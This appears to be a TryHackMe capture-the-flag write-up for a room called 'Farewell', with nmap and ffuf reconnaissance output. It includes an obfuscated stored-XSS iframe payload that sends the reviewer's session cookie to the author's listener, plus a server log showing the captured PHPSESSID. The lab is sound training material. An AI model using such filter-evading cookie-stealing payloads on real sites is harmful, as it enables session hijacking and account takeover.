


# Farewell

nmap

```
➤ nmap -A 10.67.178.149
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-22 21:07 -05
Nmap scan report for 10.67.178.149 (10.67.178.149)
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 eb:b9:64:2b:71:03:33:10:dd:f6:6a:76:51:9c:40:7f (ECDSA)
|_  256 86:8a:a2:64:00:f0:0f:5e:88:56:79:fd:cb:74:39:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Farewell \xE2\x80\x94 Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.18 seconds
```

ffuf

```
➤ ./ffuf -w /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-directories.txt:FUZZ  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0" -u http://10.67.178.149/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.178.149/FUZZ
 :: Wordlist         : FUZZ: /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-directories.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 72ms]
server-status           [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 160ms]

➤ ./ffuf -w /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-files.txt:FUZZ  -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0" -u http://10.67.178.149/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.178.149/FUZZ
 :: Wordlist         : FUZZ: /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-files.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 5246, Words: 660, Lines: 109, Duration: 75ms]
admin.php               [Status: 200, Size: 2343, Words: 146, Lines: 66, Duration: 71ms]
.htaccess               [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 72ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 74ms]
style.css               [Status: 200, Size: 6800, Words: 990, Lines: 166, Duration: 72ms]
auth.php                [Status: 405, Size: 30, Words: 1, Lines: 1, Duration: 73ms]
info.php                [Status: 200, Size: 87775, Words: 4368, Lines: 1054, Duration: 78ms]
.                       [Status: 200, Size: 5246, Words: 660, Lines: 109, Duration: 74ms]
.html                   [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
403.html                [Status: 200, Size: 780, Words: 136, Lines: 40, Duration: 72ms]
.php                    [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
status.php              [Status: 200, Size: 3467, Words: 683, Lines: 125, Duration: 73ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 114ms]
.htpasswd               [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 79ms]
.htm                    [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.htpasswds              [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.htgroup                [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
wp-forum.phps           [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 72ms]
.htaccess.bak           [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 72ms]
.htuser                 [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.ht                     [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.htc                    [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.htacess                [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 71ms]
.htaccess.old           [Status: 403, Size: 780, Words: 136, Lines: 40, Duration: 72ms]
:: Progress: [37050/37050] :: Job [1/1] :: 555 req/sec :: Duration: [0:01:09] :: Errors: 0 ::
```

Created script to bruteforce in repo here

The output of the script was:



After login the flag was in the dashboard


Now, the write message box is the classic XSS thing where it says it will be reviewed, so I tried a couple of payloads and landed at

```
<iframe src="javasc&#114;ipt:location='//192.168.135.251:8000?c='+top['doc'+'ument']['coo'+'kie']">
```

I got the cookie in my python server:

```
00:31:19 ~/Code/tryhackme [main]                                                                                    ➤ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...                                                        10.67.178.149 - - [23/Jan/2026 00:34:55] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -
10.67.178.149 - - [23/Jan/2026 00:34:55] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -              10.67.178.149 - - [23/Jan/2026 00:35:01] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -
10.67.178.149 - - [23/Jan/2026 00:35:06] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -              10.67.178.149 - - [23/Jan/2026 00:35:11] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -
10.67.178.149 - - [23/Jan/2026 00:35:17] "GET /?c=PHPSESSID=752j6fj34im95s62ms3quheeu3 HTTP/1.1" 200 -
```

Logged in, and went to admin.php page ffufed earlier:


